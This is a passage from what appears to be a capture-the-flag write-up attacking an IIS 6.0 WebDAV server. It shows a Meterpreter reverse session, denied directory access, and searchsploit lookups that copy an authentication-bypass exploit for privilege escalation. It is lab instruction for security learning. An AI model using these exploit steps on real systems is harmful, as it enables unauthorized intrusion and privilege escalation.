 ```
04/12/2017  08:48 PM    <DIR>          Administrator
04/12/2017  04:03 PM    <DIR>          All Users
04/12/2017  09:19 PM    <DIR>          Lakis
               0 File(s)              0 bytes
               5 Dir(s)   1,378,058,240 bytes free

C:\Documents and Settings>cd Administrator
cd Administrator
Access is denied.

C:\Documents and Settings>cd Lakis
cd Lakis
Access is denied.

```

### Privilege Escalation

Now with the service account, I need to elevate my privileges. This proved time consuming so I backgrounding this session and am trying the next exploit, one from the searchsploit results:

<pre><code><strong>(Meterpreter 1)(c:\windows\system32\inetsrv) > background
</strong>[*] Backgrounding session 1...
[msf](Jobs:0 Agents:1) exploit(windows/iis/iis_webdav_scstoragepathfromurl) >> sessions

Active sessions
===============

  Id  Name  Type                     Information  Connection
  --  ----  ----                     -----------  ----------
  1         meterpreter x86/windows               10.10.14.16:4444 -> 10.10.10.15:1030 (10.10.10.15)

--------------------------------------------------------

Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass                                                             | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)                                                         | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                                                         | windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                                     | windows/remote/8754.patch
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                                                            | windows/remote/19033.txt
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
-[Thu Feb 01-16:36:43]-[table@parrot]-
-[~]$ searchsploit -p 8765
  Exploit: Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass
      URL: https://www.exploit-db.com/exploits/8765
     Path: /usr/share/exploitdb/exploits/windows/remote/8765.php
    Codes: N/A
 Verified: True
File Type: PHP script, ASCII text
Copied EDB-ID #8765's path to the clipboard
-[Thu Feb 01-16:36:49]-[table@parrot]-
-[~]$ searchsploit -m 8765
  Exploit: Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass
      URL: https://www.exploit-db.com/exploits/8765
     Path: /usr/share/exploitdb/exploits/windows/remote/8765.php
    Codes: N/A
 Verified: True
File Type: PHP script, ASCII text
Copied to: /home/table/8765.php
